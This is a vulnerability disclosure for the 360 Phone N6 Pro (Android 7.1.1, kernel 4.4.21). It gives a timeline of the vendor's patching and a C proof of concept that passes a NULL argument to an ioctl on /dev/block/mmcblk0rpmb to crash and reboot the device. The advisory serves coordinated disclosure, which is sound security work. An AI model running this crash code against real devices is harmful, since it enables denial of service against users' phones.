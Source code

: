 # 360 Phone N6 Pro Kernel Vuln
These page show the details of the vulnerability found in 360 Phone N6 Pro. I reported these bugs to src@alarm.360.cn on On 5/4/2018 and now I have been told they have repaired the bugs and the details can be published. However,  Qiku Tec. does not have an advisory page for phone products at the moment. I think it is a must to list the detailed infomation here.

## Time Line
 * 5/4/2018 Bugs were reported to src@alarm.360.cn.
 * 5/14/2018 Qiku Tec. got confirmation that the bug could cause kernel crash.
 * 07/14/2018 Qiku Tec. had started updating 360 N6 Pro with the security patches.
 
### Abstract
 
* Name: 360 Phone N6 Pro
* Model: 1801-A01
* Date: 2018-10-15
* Reporter: Shuaibing Lu, Liang Ming
* Vendor: http://www.qiku.com/product/n6p/index.html
* Product Link: http://www.qiku.com/product/n6p/index.html
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64

### Description

Kernel module in the kernel component of 360 Phone N6 Pro V096 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/block/mmcblk0rpmb with the command **3235427072** and cause a kernel crash.

### POC

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/block/mmcblk0rpmb";
static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {
int fd = 0;
fd = open(driver, O_RDWR);
if (fd < 0) {
printf("Failed to open %s, with errno %dn", driver, errno);
system("echo 1 > /data/local/tmp/log");
return -1;
}

printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
printf("System will crash and reboot.n");
if(ioctl(fd, command, NULL) < 0) {
printf("Allocation of structs failed, %dn", errno);
system("echo 2 > /data/local/tmp/log");
return -1;
}
close(fd);
return 0;
}
```
### References
[360 Phone N6 pro](http://www.qiku.com/product/n6p/index.html)
